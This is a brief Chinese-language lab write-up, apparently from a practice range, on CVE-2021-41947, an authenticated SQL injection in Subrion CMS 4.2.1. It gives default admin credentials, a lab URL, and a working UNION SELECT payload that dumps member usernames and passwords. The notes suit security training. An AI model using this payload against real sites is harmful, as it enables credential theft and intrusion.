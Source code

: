 ![image-20230717160313673](%E9%9D%B6%E5%9C%BA.assets/image-20230717160313673.png)



## CVE-2021-41947 Subrion CMS v4.2.1 存在sql注入 授权

账号密码admin admin

http://eci-2zebv8ibalntahwjg8y0.cloudeci1.ichunqiu.com/panel/

登录

参考

https://github.com/nu11secur1ty/CVE-mitre/tree/main/CVE-2021-41947



payload 

/panel/visual-mode.json?get=access&type=blocks%27%20UNION%20ALL%20SELECT%20username,%20password%20FROM%20sbr415_members%20--%20-&object=landing_what_is_this&page=index

具体的表名需要在system->database->SQL TOOL下查看 我的环境表前缀为sbr415

![image-20230614113056503](%E9%9D%B6%E5%9C%BA.assets/image-20230614113056503.png)

然而本来就可以访问sql
